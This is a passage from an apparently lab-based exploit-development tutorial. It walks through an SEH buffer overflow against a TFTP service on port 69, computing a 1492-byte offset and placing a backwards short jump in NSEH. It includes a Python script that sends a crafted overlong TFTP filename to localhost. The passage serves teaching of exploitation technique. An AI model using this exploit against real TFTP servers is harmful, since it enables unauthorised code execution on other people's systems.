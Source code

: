 ## The First Stage...How Do I Jump Backwards Again???

So after playing around I found that we still have tons of space above where we are now. To verify this double click on the first B that we have, where the program is currently pointing. You should see an arrow appear:

[![](https://2.bp.blogspot.com/-LsuSt8E8Gsk/UK58rfWezdI/AAAAAAAAAGk/i22Ucpti9p0/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_033.png)](https://2.bp.blogspot.com/-LsuSt8E8Gsk/UK58rfWezdI/AAAAAAAAAGk/i22Ucpti9p0/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_033.png)

Scroll up till you see the beginning of your `\x41`'s.

[![](https://4.bp.blogspot.com/-7WjFjwezJR4/UK59pScZkEI/AAAAAAAAAGs/CwqyHSLcjXM/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_034.png)](https://4.bp.blogspot.com/-7WjFjwezJR4/UK59pScZkEI/AAAAAAAAAGs/CwqyHSLcjXM/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_034.png)

We see that it is `0x5D4` bytes till the beginning of our `\x41`'s or 1492 bytes. We decide to do a jump backwards to the beginning of our buffer. The farthest backwards jump we can do is `\xeb\x80\x90\x90`.

So now we will have it so that NSEH looks like this:

`nseh = "\xeb\x80\x90\x90"`

Except just put that in for the part in the code where NSEH is overwritten (well that minus the nseh = part).

## Overwriting NSEH With A Backwards Jump

Ok with those changes our code looks like this:

```python
import socket 
host = "127.0.0.1"
port = 69 

filename = "A" * 1492
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0"

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

Lets test that out:

[![](https://1.bp.blogspot.com/-7xcddfBwT5w/UK6D1LHjt5I/AAAAAAAAAHA/GSxpGbU4tSc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_035.png)](https://1.bp.blogspot.com/-7xcddfBwT5w/UK6D1LHjt5I/AAAAAAAAAHA/GSxpGbU4tSc/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_035.png)
